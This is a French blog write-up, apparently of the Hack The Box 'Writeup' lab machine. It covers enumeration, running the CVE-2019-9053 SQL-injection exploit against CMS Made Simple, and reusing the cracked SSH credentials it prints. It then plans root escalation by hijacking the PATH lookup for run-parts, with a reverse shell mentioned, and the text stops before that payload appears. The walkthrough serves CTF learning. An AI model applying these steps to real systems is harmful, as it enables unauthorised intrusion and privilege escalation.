

---

# === Archetype writeups – v1 (stable) ===
# === Archetype: writeups (Page Bundle) ===
# Copié vers content/writeups/<nom_ctf>/index.md
title: "Writeup.htb — HTB Easy Writeup & Walkthrough"
linkTitle: "Writeup"
slug: "writeup"
date: 2026-01-12T16:55:53+01:00
#lastmod: 2026-01-12T16:55:53+01:00
draft: false
#robotsNoIndex: false


# --- PaperMod / navigation ---
type: "writeups"
summary: "CMS exposé, identifiants récupérés, accès SSH, puis root via détournement de PATH."
description: "Walkthrough de writeup.htb (HTB Easy) : énumération, CMS Made Simple (CVE-2019-9053) pour obtenir un accès SSH, puis root via détournement de PATH."
tags: ["Easy","cms-made-simple","cve-2019-9053","SSH","path-hijacking","linux-privesc"]
categories: ["Mes writeups"]

# --- TOC & mise en page ---
ShowToc: true
TocOpen: true
# toc_droite: 1

# --- Cover / images (Page Bundle) ---
cover:
  image: "image.png"
  alt: "writeup.htb (HTB Easy) : exploitation CMS Made Simple puis escalade root par détournement de PATH, expliqué pas à pas"
  caption: ""
  relative: true
  hidden: false
  hiddenInList: false
  hiddenInSingle: false

# --- Paramètres CTF (placeholders à éditer après création) ---
ctf:
  platform: "Hack The Box"
  machine: "Writeup"
  difficulty: "Easy"
  target_ip: "10.129.x.x"
  skills: ["Enumeration","Web","Privilege Escalation"]
  time_spent: "2h"
  # vpn_ip: "10.10.14.xx"
  # notes: "Points d'attention…"

# --- Options diverses ---
# weight: 10
# ShowBreadCrumbs: true
# ShowPostNavLinks: true

# --- SEO Reminders (à compléter après création) ---
# 1) Titre :
#    - Doit contenir : Nom Machine + HTB Easy + Writeup
# 2) Description :
#    - Résumé 130–160 caractères
#    - Style “Mix Parfait” : pédagogique + technique
#    - Exemple : "Writeup de <machine> (HTB Easy) : énumération claire, analyse de la vulnérabilité et escalade structurée."
# 3) ALT (image de couverture) :
#    - Mixer vulnérabilité + pédagogie + progression
#    - Exemple : "Machine <machine> HTB Easy vulnérable à <faille>, expliquée étape par étape jusqu'à l'escalade."
# 4) Tags :
#    - Toujours ["Easy"]
#    - Ajouter d'autres selon le thème : ["web","shellshock","heartbleed","enum"]
# 5) Structure :
#    - H1 = titre
#    - Description = meta description + preview social
#    - ALT = SEO image + accessibilité

# --- SEO CHECKLIST (à valider avant publication) ---

# [ ] 1) Titre (title + H1)
#     - Contient : Nom Machine + HTB Easy + Writeup
#     - Unique sur le site
#     - Lisible hors contexte HTB

# [ ] 2) Description (meta)
#     - 130–160 caractères
#     - Pas générique
#     - Ton pédagogique + technique
#     - Exemple :
#       "Writeup de <machine> (HTB Easy) : énumération claire,
#        compréhension de la vulnérabilité et escalade structurée."

# [ ] 3) Image de couverture
#     - Présente (ou fallback)
#     - Nom explicite
#     - Dimensions cohérentes

# [ ] 4) ALT de l'image
#     - Décrit la machine + l'approche
#     - Pédagogique (pas juste technique)
#     - Exemple :
#       "Machine <machine> HTB Easy exploitée étape par étape,
#        de l'énumération à l'escalade de privilèges."

# [ ] 5) Tags
#     - Toujours inclure la difficulté (ex: "Easy")
#     - Ajouter uniquement des tags techniques réels

# [ ] 6) Structure du contenu
#     - Un seul H1
#     - Sections claires et hiérarchisées
#     - Pas de sections SEO artificielles

---

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Writeup> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

Ce writeup te guide dans la résolution complète de la machine **writeup.htb** sur Hack The Box, depuis l’énumération initiale jusqu’à l’obtention des privilèges **root** sur Linux.

Tu identifies d’abord un service web basé sur un CMS, puis tu exploites une vulnérabilité qui te permet d’obtenir un premier accès utilisateur.

Ensuite, tu observes un mécanisme exécuté avec des droits élevés : à la connexion, le système appelle `run-parts` sans chemin absolu. **En détournant le `PATH`, tu forces alors l’exécution de ton script avec les privilèges root**.

La progression est volontairement structurée et pédagogique, avec un accent mis sur la compréhension des mécanismes plutôt que sur l’exploit lui-même.

## Énumérations

Dans un challenge **CTF Hack The Box**, tu commences **toujours** par une phase d’**énumération complète**.
C’est une étape incontournable : elle te permet d’identifier clairement ce que la machine expose avant toute tentative d’exploitation.

Concrètement, tu cherches à savoir quels **ports** sont ouverts, quels **services** sont accessibles, si une **application web** est présente, quels **répertoires** sont exposés et si des **sous-domaines ou vhosts** peuvent être exploités.

Pour réaliser cette énumération de manière structurée et reproductible, tu peux t’appuyer sur trois scripts :

- **** : identifie les ports ouverts et les services en écoute
- **** : énumère les répertoires et fichiers accessibles via le service web
- **** : détecte la présence éventuelle de sous-domaines et de vhosts

Tu retrouves ces outils dans la section **[Outils / Mes scripts](/mes-scripts/)**.

Pour garantir des résultats pertinents en contexte **CTF HTB**, tu utilises une **wordlist dédiée**, installée au préalable grâce au script ****.
Cette wordlist est conçue pour couvrir les technologies couramment rencontrées sur Hack The Box.

------

Avant de lancer les scans, vérifie que writeup.htb résout bien vers la cible. Sur HTB, ça passe généralement par une entrée dans /etc/hosts.

- Ajoute l’entrée `10.129.x.x writeup.htb` dans `/etc/hosts`.

```bash
sudo nano /etc/hosts
```

- Lance ensuite le script  pour obtenir une vue claire des ports et services exposés :

```bash
mon-nmap writeup.htb

# Résultats dans le répertoire scans_nmap/
#  - scans_nmap/full_tcp_scan.txt
#  - scans_nmap/aggressive_vuln_scan.txt
#  - scans_nmap/cms_vuln_scan.txt
#  - scans_nmap/udp_vuln_scan.txt
```


### Scan initial

Le scan initial TCP complet (`scans_nmap/full_tcp_scan.txt`) te révèle les ports ouverts suivants :

> Note : les IP et timestamps peuvent varier selon les resets HTB ; l'important ici est la surface exposée.

```bash
# Nmap 7.98 scan initiated Wed Jan 14 14:08:09 2026 as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/full_tcp_scan.txt writeup.htb
Nmap scan report for writeup.htb (10.129.x.x)
Host is up (0.011s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Wed Jan 14 14:08:36 2026 -- 1 IP address (1 host up) scanned in 26.59 seconds
```

### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités.

Voici le résultat (`scans_nmap/aggressive_vuln_scan.txt`) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour writeup.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"22,80" --script="(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 "writeup.htb"

# Nmap 7.98 scan initiated Wed Jan 14 14:08:36 2026 as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p22,80 "--script=(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 -oN scans_nmap/aggressive_vuln_scan_raw.txt writeup.htb
Nmap scan report for writeup.htb (10.129.x.x)
Host is up (0.016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running (JUST GUESSING): Linux 4.X|5.X|2.6.X|3.X (97%), MikroTik RouterOS 7.X (94%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:6.0
Aggressive OS guesses: Linux 4.15 - 5.19 (97%), Linux 5.0 - 5.14 (97%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (94%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%), Linux 3.4 - 3.10 (91%), Linux 2.6.32 - 3.10 (91%), Linux 4.19 - 5.15 (91%), OpenWrt 21.02 (Linux 5.4) (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   23.59 ms 10.10.x.x
2   40.28 ms writeup.htb (10.129.x.x)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 14 14:09:04 2026 -- 1 IP address (1 host up) scanned in 27.92 seconds

```


### Scan ciblé CMS

Vient ensuite le scan ciblé CMS (`scans_nmap/cms_vuln_scan.txt`).

```bash
# Nmap 7.98 scan initiated Wed Jan 14 14:09:04 2026 as: /usr/lib/nmap/nmap --privileged -Pn -sV -p22,80 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/cms_vuln_scan.txt writeup.htb
Nmap scan report for writeup.htb (10.129.x.x)
Host is up (0.0073s latency).

PORT   STATE    SERVICE VERSION
22/tcp open     ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
80/tcp filtered http
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 14 14:09:04 2026 -- 1 IP address (1 host up) scanned in 0.26 seconds
```


### Scan UDP rapide

Le scan UDP rapide (`scans_nmap/udp_vuln_scan.txt`).

```bash
# Nmap 7.98 scan initiated Wed Jan 14 14:09:04 2026 as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN scans_nmap/udp_vuln_scan.txt writeup.htb
Nmap scan report for writeup.htb (10.129.x.x)
Host is up.

PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown

# Nmap done at Wed Jan 14 14:09:07 2026 -- 1 IP address (1 host up) scanned in 3.23 seconds

```


### Énumération des chemins web avec `mon-recoweb`
Pour la partie découverte de chemins web, utilise le script dédié 

```bash
mon-recoweb writeup.htb

# Résultats dans le répertoire scans_recoweb/
#  - scans_recoweb/RESULTS_SUMMARY.txt     ← vue d’ensemble des découvertes
#  - scans_recoweb/dirb.log
#  - scans_recoweb/dirb_hits.txt
#  - scans_recoweb/ffuf_dirs.txt
#  - scans_recoweb/ffuf_dirs_hits.txt
#  - scans_recoweb/ffuf_files.txt
#  - scans_recoweb/ffuf_files_hits.txt
#  - scans_recoweb/ffuf_dirs.json
#  - scans_recoweb/ffuf_files.json

```

Le fichier **`RESULTS_SUMMARY.txt`** te permet d’identifier rapidement les chemins intéressants sans parcourir tous les logs.

```bash
┌──(kali㉿kali)-[/mnt/kvm-md0/HTB/writeup]
└─$ mon-recoweb writeup.htb    
Script: mon-recoweb v2.1.0
[*] Test d'accessibilité de la cible
[+] Cible accessible
[*] target : writeup.htb
[*] host   : writeup.htb
[*] base   : http://writeup.htb
[*] outdir : scans_recoweb
[*] files wordlist : /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
[*] ffuf   : threads=30 timeout=10s fc=404

[+] Phase 1/3: dirb (common.txt)

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Jan 14 14:17:59 2026
URL_BASE: http://writeup.htb/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://writeup.htb/ ----
                                                                                                                                            
(!) FATAL: Too many errors connecting to host
    (Possible cause: COULDNT CONNECT)
                                                                               
-----------------
END_TIME: Wed Jan 14 14:18:06 2026
DOWNLOADED: 12 - FOUND: 0

[+] Phase 2/3: ffuf directories (raft-medium-directories)

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://writeup.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Output file      : scans_recoweb/ffuf_dirs.json
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 30
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

:: Progress: [42/29999] :: Job [1/1] :: 1 req/sec :: Duration: [0:00:19] :: Errors: 12 ::^C                                                                                                                                             
┌──(kali㉿kali)-[/mnt/kvm-md0/HTB/writeup]
└─$ 
```

> Tu peux arrêter ce scan : le débit tombe à 1 requête/seconde et les erreurs s’accumulent, ce qui indique un bannissement ou une protection anti-DoS qui se déclenche sur les erreurs HTTP. Inutile d’insister ici : robots.txt te donne déjà une piste exploitable.


### Recherche de vhosts avec `mon-subdomains`
Enfin, teste rapidement la présence de vhosts  avec  le script 

```bash
mon-subdomains writeup.htb

# Résultats dans le répertoire scans_subdomains/
#  - scans_subdomains/scan_vhosts.txt
```

Si aucun vhost distinct n’est détecté, ce fichier te permet malgré tout de confirmer que le fuzzing n’a rien révélé d’exploitable.

```bash
=== mon-subdomains writeup.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.0
Date         : 2026-01-14 14:15:28
Domaine      : writeup.htb
IP           : 10.129.x.x
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 0
  - (aucun)

--- Détails par port ---
Port 80 (http)
  Baseline#1: code=200 size=3032 words=210 (Host=39ss85gc0j.writeup.htb)
  Baseline#2: code=200 size=3032 words=210 (Host=q6rfkfx1z6.writeup.htb)
  Baseline#3: code=200 size=3032 words=210 (Host=1e47d6ab5c.writeup.htb)
  VHOST (0)
    - (fuzzing sauté : wildcard probable)
    - (explication : réponse identique quel que soit Host → vhost-fuzzing non discriminant)


=== mon-subdomains writeup.htb END ===


```


---

## Exploitation – Prise pied (Foothold)

Tu commences par ouvrir `http://writeup.htb` dans ton navigateur pour comprendre ce que le service web expose réellement.


### Page d’accueil

Quand tu accèdes à `http://writeup.htb`, tu constates que la page est entièrement statique (ASCII art + messages informatifs). Comme aucun lien ni élément interactif n’est présent, tu comprends que l’application n’expose pas encore de fonctionnalité exploitable directement depuis la page d’accueil.

Le message précise aussi que le site n’est pas encore en production et mentionne une protection anti-DoS basée sur le bannissement des adresses IP qui génèrent des erreurs HTTP **40x**. Tu gardes donc ce point en tête avant de lancer du fuzzing agressif : trop d’erreurs d’affilée et ton IP peut être temporairement bloquée.

Dans ce contexte, tu consultes le code source pour vérifier s’il y a des indices (commentaires, chemins, ressources). Ici, tu ne trouves rien de dynamique : la page ne contient pas d’élément exploitable à ce stade.

Le réflexe suivant, c’est de vérifier immédiatement `robots.txt`. Sur un site “en dev”, il sert souvent à exclure des zones de l’indexation tout en les laissant accessibles, ce qui peut révéler des répertoires intéressants pour la suite.

### robots.txt

Tu consultes ensuite le fichier `robots.txt` afin de vérifier si certaines zones du site ont été volontairement exclues de l’indexation.

```bash
curl http://writeup.htb/robots.txt
#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: * 
Disallow: /writeup/

```

Le fichier `robots.txt` révèle immédiatement un répertoire intéressant : `/writeup/`.
Même s’il est exclu de l’indexation par les moteurs de recherche, il reste **accessible directement**, ce qui en fait une piste évidente à explorer pour la suite de l’exploitation.

Tu accèdes donc au répertoire `http://writeup.htb/writeup/`.
À ce stade, tu examines le **code source de la page** afin d’identifier la technologie utilisée. Pour cela, tu peux soit utiliser le raccourci **Ctrl + U** directement dans ton navigateur, soit afficher la source via un outil en ligne de commande comme `curl`.

```html
<base href="http://writeup.htb/writeup/" />
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
```

La balise `Generator` permet d'identifier sans ambiguïté le CMS utilisé : **CMS Made Simple**.

### CMS Made Simple

Une fois le CMS identifié, tu vérifies s’il existe des vulnérabilités connues affectant **CMS Made Simple**.
Dans ce contexte, **CVE-2019-9053** apparaît comme une piste évidente : il s’agit d’une **injection SQL non authentifiée** exploitable à distance.

Cette vulnérabilité permet d’extraire des informations sensibles depuis la base de données, notamment des **identifiants**, ouvrant la voie à un premier accès utilisateur. Un **[PoC Python](https://www.exploit-db.com/exploits/46635)** existe et automatise cette exploitation.

Tu peux maintenant passer à l’exécution de l’exploit **CVE-2019-9053** afin de récupérer des identifiants exploitables pour la suite du challenge.

### Exploitation de CVE-2019-9053

Tu exécutes le **PoC Python** associé à **CVE-2019-9053** afin d’exploiter l’injection SQL et d’extraire des informations depuis la base de données du CMS.

Sous **Python 3**, l’exploit échoue lors de la phase de cracking à cause de l’encodage de la wordlist `rockyou.txt`. Pour corriger ce comportement, tu ajustes simplement l’ouverture du fichier afin de gérer correctement les caractères non ASCII.

Dans le script, remplace l’ouverture classique de la wordlist par une version qui force l’encodage et ignore les erreurs.

> Correction :
>
> Il faut donc **remplacer ceci** :
>
> ```python
> with open(wordlist, 'r') as dict:
> ```
>
> par :
>
> ```python
> with open(wordlist, 'r', encoding='latin-1', errors='ignore') as dict:
> ```
>
> 

Une version corrigée est disponible ici: [my_updated_46635.py](files/my_updated_46635.py)

Tu peux alors lancer l’exploit contre `http://writeup.htb/writeup/`.
L’exécution est volontairement lente (attaque *time-based*) et prend plusieurs minutes, mais elle permet de récupérer des **identifiants valides**.

Une fois les identifiants obtenus, tu disposes enfin d’un **premier point d’appui concret** pour la suite : tester leur réutilisation sur les services exposés, en priorité **SSH**.

Tu peux maintenant lancer l'exploit :

```bash
python3 my_updated_46635.py -u http://writeup.htb/writeup/ --crack -w /usr/share/wordlists/rockyou.txt
```

Voici une vue animée de l'exécution de l'exploit CVE-2019-9053 :


> Le GIF présente l'exécution en accéléré pour que tu puisses suivre plus facilement les étapes. En pratique, l'exécution réelle de l'exploit est beaucoup plus lente et prend environ **5 minutes**, car il teste les informations caractère par caractère à l'aide de délais volontairement introduits (*time-based*).

### Connexion SSH

Une fois les identifiants  récupérés via l’exploitation de **CVE-2019-9053**, le réflexe en CTF consiste à tester immédiatement leur réutilisation sur les autres services exposés.

Ici, le service **SSH** est accessible sur la machine. Tu tentes donc une connexion SSH avec les identifiants **`jkr:raykayjay9`**.
Cette étape est essentielle : sur Hack The Box, il est très fréquent que des identifiants issus d’une application web fonctionnent également pour l’accès système.

La connexion SSH aboutit et te donne un **accès interactif** en tant qu’utilisateur `jkr`.
Tu disposes désormais d’un shell stable sur la machine cible, ce qui marque la fin de la phase de **prise pied (foothold)**.

```bash
ssh jkr@writeup.htb

jkr@writeup.htb's password: 
Linux writeup 6.1.0-13-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct 25 11:04:00 2023 from 10.10.x.x
jkr@writeup:~$
```

### user.txt

Une fois connecté en SSH, tu effectues immédiatement les vérifications de base.
Ces commandes te permettent de confirmer **qui tu es**, **où tu te trouves** et **quels sont tes droits**, avant d’aller plus loin.

Tu vérifies ton utilisateur, ton répertoire courant, tes groupes, puis tu listes le contenu de ton dossier personnel.
Cette étape est systématique après tout premier accès : elle valide le foothold et évite de passer à côté d’informations importantes. C'est une étape simple, systématique, et essentielle après tout premier accès à une machine.

```bash
jkr@writeup:~$ whoami
jkr
jkr@writeup:~$ pwd
/home/jkr
jkr@writeup:~$ groups
jkr cdrom floppy audio dip video plugdev staff netdev
jkr@writeup:~$
```

En listant les fichiers du répertoire personnel, tu identifies rapidement le fichier **user.txt**.

```bash
jkr@writeup:~$ ls -la
total 24
drwxr-xr-x 2 jkr  jkr  4096 Apr 19  2019 .
drwxr-xr-x 3 root root 4096 Apr 19  2019 ..
lrwxrwxrwx 1 root root    9 Apr 19  2019 .bash_history -> /dev/null
-rw-r--r-- 1 jkr  jkr   220 Apr 19  2019 .bash_logout
-rw-r--r-- 1 jkr  jkr  3526 Apr 19  2019 .bashrc
-rw-r--r-- 1 jkr  jkr   675 Apr 19  2019 .profile
-r--r--r-- 1 root root   33 Jan 14 03:57 user.txt
```

Tu peux alors le lire et récupérer le **premier flag**, ce qui confirme officiellement la réussite de la phase utilisateur.

```bash
jkr@writeup:~$ cat user.txt
0b4cxxxxxxxxxxxxxxxxxxxxxxxx3946
jkr@writeup:~$
```


## Escalade de privilèges

Une fois connecté en SSH en tant que `jkr`, tu appliques la méthodologie décrite dans la recette
   .

### Sudo -l

La première étape consiste toujours à vérifier les droits `sudo` :

  ```bash
  jkr@writeup:~$ sudo -l
  -bash: sudo: command not found
  ```

L'absence de `sudo` élimine immédiatement cette piste et oriente l'analyse vers les tâches automatiques exécutées par root.

------

### Pspy64

La méthode recommande ensuite d'observer l'activité du système en temps réel à l'aide de `pspy64`, afin d'identifier des commandes exécutées automatiquement avec des privilèges élevés.

> **Note :** après avoir copié `pspy64` sur la cible via la recette , l'exécution depuis `/dev/shm` n'est pas autorisée sur cette machine. Copier le binaire dans `/tmp` permet de l'exécuter sans problème.
>
> N'oublie pas de rendre pspy64 exécutable avec:
>
> ```bash
> jkr@writeup:/tmp$ chmod +x pspy64
> ```
>
> 

```bash
2026/01/16 11:53:01 CMD: UID=0     PID=2769   | /usr/sbin/CRON 
2026/01/16 11:53:01 CMD: UID=0     PID=2770   | /usr/sbin/CRON 
2026/01/16 11:53:01 CMD: UID=0     PID=2771   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2026/01/16 11:54:01 CMD: UID=0     PID=2772   | /usr/sbin/CRON 
2026/01/16 11:54:01 CMD: UID=0     PID=2773   | /usr/sbin/CRON 
2026/01/16 11:54:01 CMD: UID=0     PID=2774   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2026/01/16 11:55:01 CMD: UID=0     PID=2775   | /usr/sbin/CRON 
2026/01/16 11:55:01 CMD: UID=0     PID=2776   | /usr/sbin/CRON 
2026/01/16 11:55:01 CMD: UID=0     PID=2777   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 

```

Lors de l'analyse, tu remarques l'exécution régulière d'un script lancé par **CRON** en tant que root :

  ```txt
  /root/bin/cleanup.pl
  ```

Cependant, ce fichier n'est ni lisible ni modifiable par `jkr`, et aucun répertoire accessible n'est utilisé. La piste est donc abandonnée.

Pendant que `pspy64` est en cours d'exécution, tu ouvres une **nouvelle session SSH dans un autre terminal**, ce qui est une pratique courante pour déclencher les actions automatiques liées à la connexion.

```bash
2026/01/16 11:53:01 CMD: UID=0     PID=2769   | /usr/sbin/CRON 
2026/01/16 11:53:01 CMD: UID=0     PID=2770   | /usr/sbin/CRON 
2026/01/16 11:53:01 CMD: UID=0     PID=2771   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2026/01/16 11:54:01 CMD: UID=0     PID=2772   | /usr/sbin/CRON 
2026/01/16 11:54:01 CMD: UID=0     PID=2773   | /usr/sbin/CRON 
2026/01/16 11:54:01 CMD: UID=0     PID=2774   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2026/01/16 11:55:01 CMD: UID=0     PID=2775   | /usr/sbin/CRON 
2026/01/16 11:55:01 CMD: UID=0     PID=2776   | /usr/sbin/CRON 
2026/01/16 11:55:01 CMD: UID=0     PID=2777   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2026/01/16 11:55:03 CMD: UID=0     PID=2778   | sshd: [accepted] 
2026/01/16 11:55:03 CMD: UID=0     PID=2779   | sshd: [accepted]  
2026/01/16 11:55:08 CMD: UID=0     PID=2780   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2026/01/16 11:55:08 CMD: UID=0     PID=2781   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2026/01/16 11:55:08 CMD: UID=0     PID=2782   | run-parts --lsbsysinit /etc/update-motd.d 
2026/01/16 11:55:08 CMD: UID=0     PID=2783   | uname -rnsom 
2026/01/16 11:55:08 CMD: UID=0     PID=2784   | sshd: jkr [priv]  
2026/01/16 11:55:09 CMD: UID=1000  PID=2785   | -bash 
2026/01/16 11:55:09 CMD: UID=1000  PID=2787   | -bash 
2026/01/16 11:55:09 CMD: UID=1000  PID=2786   | -bash 
2026/01/16 11:55:09 CMD: UID=1000  PID=2788   | -bash 
2026/01/16 11:55:09 CMD: UID=1000  PID=2789   | -bash
```

Lors de la connexion SSH, tu observes l'exécution automatique de la commande suivante avec les privilèges root :

```bash
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d
```

Ici, `run-parts` est appelé **sans chemin absolu**. Lors de son exécution, root recherche donc la commande en suivant **l'ordre des répertoires définis dans la variable d'environnement `PATH`**. En l'absence de détournement, le binaire légitime est trouvé dans `/bin/run-parts`, ce que tu peux vérifier avec la commande `which run-parts`.

------

En poursuivant l'énumération des permissions, la commande suivante permet d'identifier les répertoires accessibles en écriture par l'utilisateur `jkr` :

```bash
find / -path /home -prune -o -type d -writable -print 2>/dev/null
```

Les résultats montrent notamment que `jkr` dispose des droits d'écriture sur `/usr/local/bin` et `/usr/local/sbin`. Ces deux répertoires apparaissent **avant `/bin` dans la variable `PATH`**, ce qui est un point clé pour l'exploitation.

------

Dans ce contexte, si `jkr` place son propre script nommé `run-parts` dans `/usr/local/bin`, c'est ce script qui sera exécuté **en priorité**, à la place du binaire légitime situé dans `/bin`. Ce mécanisme est appelé **détournement de `PATH`** : lorsqu'une commande est invoquée sans chemin absolu, le système exécute le premier fichier correspondant trouvé dans le `PATH`. Il s'agit d'une technique classique et très courante en CTF pour obtenir une escalade de privilèges.

------

### Détournement de PATH

Pour exploiter le détournement de PATH, tu vas mettre en place un faux run-parts dans un répertoire présent dans le PATH et où jkr a des droits d’écriture (par exemple /usr/local/bin).
L’objectif est que, lors de la connexion SSH, le système exécute notre script à la place du binaire légitime, ce qui déclenchera un reverse shell en tant que root vers ta machine Kali.

### Exploitation du détournement de PATH avec Tilix (méthode « 4 fenêtres »)

L’analyse du comportement système à l’aide de **pspy64** a révélé l’exécution périodique d’un script **cleanup.pl**, lancé **toutes les minutes avec les privilèges root**.

 Comme tu peux le vérifier par toi-même, ce script effectue un nettoyage agressif de plusieurs répertoires, notamment :

- `/usr/local/bin`
- `/usr/local/sbin`

Cela a une conséquence directe sur l’exploitation :
 👉 **tout détournement de PATH par création d’un faux binaire `run-parts` doit impérativement être réalisé dans la minute qui suit le passage de `cleanup.pl`.**

